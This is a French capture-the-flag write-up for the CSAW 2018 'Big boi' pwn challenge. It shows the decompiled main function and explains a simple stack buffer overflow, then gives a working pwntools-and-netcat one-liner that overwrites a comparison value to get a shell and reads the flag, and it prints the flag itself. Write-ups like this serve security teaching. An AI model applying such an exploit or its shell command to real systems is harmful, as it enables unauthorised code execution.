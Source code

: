 ```yaml
---
author: "Laluka"
title: "CSAW - Big boi"
slug: "big_boi"
date: 2018-09-16
status: "original"
description: "Exploitation binaire d'un executeur de commande un peu naif, simple buffer overflow sur les parametres d'une fonction. "
---
```



### Description

> Seuls les big boi pwners passeront celui-là !

> nc pwn.chal.csaw.io 9000

Vous pouvez télécharger le fichier ELF [ici](/writeups/csaw_2018/big_boi/big_boi)


### TL;DR

Ce challenge est un simple buffer overflow avec une comparaison qui `peut` conduire à une exécution de code. C'est un pwn facile, donc le one-liner est de mise !


### Methologie

Etape 1 : Utilisez IDA pour décompiler le programme et éviter de perdre du temps, puis overflow au bon endroit avec la bonne valeur répétée pour accéder au code executant "/bin/bash".

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = -559038737;
  puts("Are you a big boiiiii??");
  read(0, &buf, 0x18uLL);
  if ( HIDWORD(v6) == 0xCAF3BAEE )
    run_cmd("/bin/bash", &buf);
  else
    run_cmd("/bin/date", &buf);
  return 0;
}
```

Etape 2 : Envoyer l'overflow et la cmd à exécuter.

```bash
python2 -c 'from pwn import *; print p32(0xCAF3BAEE) * 6; print "cat flag.txt"' | nc pwn.chal.csaw.io 9000
```

Etape 3 : Profiter des points gratuits ! Yayyyy ! \o/

Le flag est : __flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}__
